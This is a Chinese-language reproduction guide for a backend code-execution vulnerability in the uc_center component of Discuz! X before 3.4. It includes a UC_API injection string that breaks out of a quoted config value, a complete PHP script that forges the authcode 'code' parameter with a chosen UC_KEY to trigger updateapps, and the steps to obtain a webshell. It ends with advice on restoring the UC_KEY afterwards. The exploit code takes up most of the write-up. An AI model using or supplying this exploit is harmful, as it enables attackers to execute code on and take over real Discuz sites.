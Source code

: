 Discuz! X \< 3.4 uc\_center 后台代码执行漏洞
============================================

一、漏洞简介
------------

二、漏洞影响
------------

Discuz! X \< 3.4

三、复现过程
------------

-   进入后台站长-Ucenter设置，设置UC\_KEY=随意(一定要记住，后面要用),

```{=html}
<!-- -->
```
    UC_API= http://www.0-sec.org/discuz34/uc_server');phpinfo();//

1.png

2.png

成功写进配置文件，这里单引号被转移了，我们接下来使用UC\_KEY(dz)去调用api/uc.php中的updateapps函数更新UC\_API。

利用UC\_KEY(dz) 生成code参数，使用过UC\_KEY(dz)
GetWebShell的同学肯定不陌生，这里使用的UC\_KEY(dz)就是上面我们设置的。

    <?php
    $uc_key="123456";//
    $time = time() + 720000;
    $str = "time=".$time."&action=updateapps";
    $code = authcode($str,"ENCODE",$uc_key);
    $code = str_replace('+','%2b',$code);
    $code = str_replace('/','%2f',$code);
    echo $code;

    function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
      $ckey_length = 4;
      $key = md5($key != '' ? $key : '123456');
      $keya = md5(substr($key, 0, 16));
      $keyb = md5(substr($key, 16, 16));
      $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

      $cryptkey = $keya.md5($keya.$keyc);
      $key_length = strlen($cryptkey);

      $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
      $string_length = strlen($string);

      $result = '';
      $box = range(0, 255);

      $rndkey = array();
      for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
      }

      for($j = $i = 0; $i < 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
      }

      for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
      }

      if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
          return substr($result, 26);
        } else {
          return '';
        }
      } else {
        return $keyc.str_replace('=', '', base64_encode($result));
      }
    }
    ?>

-   将生成的数据带入GET请求中的code 参数，发送数据包    3.png

访问 http://www.0-sec.org/discuz34/config/config\_ucenter.php
代码执行成功4.png

5.png

到此成功GetWebShell，在这个过程中，有一点需要注意的是，我们修改了程序原有的UC\_KEY(dz)，成功GetWebShell以后一定要修复，有2中方法：

-   从数据库中读取authkey(uc\_server)，通过UC\_MYKEY解密获得UC\_KEY(dz)，当然有可能authkey(uc\_server)就是UC\_KEY(dz)。

-   直接进入Ucenter后台修改UC\_KEY，修改成我们GetWebShell过程中所设置的值。
